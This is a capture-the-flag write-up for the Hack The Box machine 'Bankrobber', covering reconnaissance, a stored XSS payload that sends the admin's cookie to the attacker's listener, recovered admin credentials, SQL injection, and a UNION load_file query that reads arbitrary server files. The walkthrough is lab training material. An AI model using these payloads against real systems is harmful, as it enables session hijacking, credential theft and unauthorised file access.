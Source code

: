 ```yaml
---
title: bankrobber user 
author: fieldraccoon
date: 2020-07-09
categories: [hack-the-box, windows]
tags: [hack-the-box, sqli, xss, xsrf, javascript, insane]
math: true
---
```


Bankrobber overall was a very unstable box and due to that it was very fiddly to get a shell and get root so i will go over the methodology of the xss and sqli in depth for the user section.

Of course we start off with an nmap:
```bash
kali@kali:~/boxes/bankrobber$ nmap -sC -sV -o nmap 10.10.10.154
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 06:13 EDT
Nmap scan report for 10.10.10.154
Host is up (0.034s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h03m36s, deviation: 0s, median: 1h03m36s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-08T11:17:56
|_  start_date: 2020-07-08T11:07:41
```

It showed us port `3306` on `mysql` and `445` on `smb`, we tried to connect to both of theese but were noth closed via a password protection.

Port `80` however was indeed usefull.

When visited with the site i made an account with the credentials `field:field` and loged in. Here we were greeted with a transaction page which in our case is bitcoin. There is 3 boxes for information, an id box a recipitent id box and a comment. The comment box will be abused here.

When we give it a test with random values we get a poppup about an admin reviewing it, indicating that there is an admin on the website that we can possibily exploit. 

We create a file on our box with the contents:
`hello.php`:
```php
<?php ?>
```
This file can have any contents it just needs to be a file on the server.

Next we will try and steal the admin credentials by using this file as a connection to our box and then with a listener try and read the cookies.

On the bitcoin bank website we fill out the form with any id and in the contents section we add this:
```javascript
<script>new Image().src="http://10.10.xx.xx/hello.php?output="+document.cookie;</script>
```
This simple XSS will make a connectin to our ip address and try connect to the file but in fact will be redirected by a listener and reveal the contents of the request.

We send this request and on our box we get a connection back:

```bash
ali@kali:~/boxes/bankrobber$ sudo nc -nlvp 80
[sudo] password for kali:                                                                                          
listening on [any] 80 ...                                                                                          
connect to [10.10.xx.xx] from (UNKNOWN) [10.10.10.154] 49744                                                        
GET /hello.php?output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1                
Referer: http://localhost/admin/index.php                                                                          
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1 
Accept: */*                                                                                                        
Connection: Keep-Alive                                                                                             
Accept-Encoding: gzip, deflate                                                                                     
Accept-Language: nl-NL,en,*                                                                                        
Host: 10.10.xx.xx
```

We can see here that we are given a line of credentials
```bash
output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1
```

We decode the username and the password from base64 and read the creds in plaintext.
```bash
kali@kali:~/boxes/bankrobber$ echo YWRtaW4= | base64 -d                                                            
adminkali@kali:~/boxes/bankrobber$ echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d                                       
Hopelessromantickali@kali:~/boxes/bankrobber$
```

Then we can login with `admin:Hopelessromantic` and get access to the admin panel.

From here we can experiment with sqli to read the backdoor.php which is in control of the backdoor command on the site and what we will use to get a shell(although not in this post.)

When we type `1' or 1=1 -- -` we get presented with a panel of all the users being admin and our own user.

We can now contruct an SQL query to read the user flag.

```sql
10' UNION SELECT 1,load_file('c:\\users\\cortin\\desktop\\user.txt'),3;-- -
```
We can also cahnge the file path and read any file that we want. including the backdoor.php file which helps us build our js script to pop a shell.

Thanks for reading hope that you enjoyed.
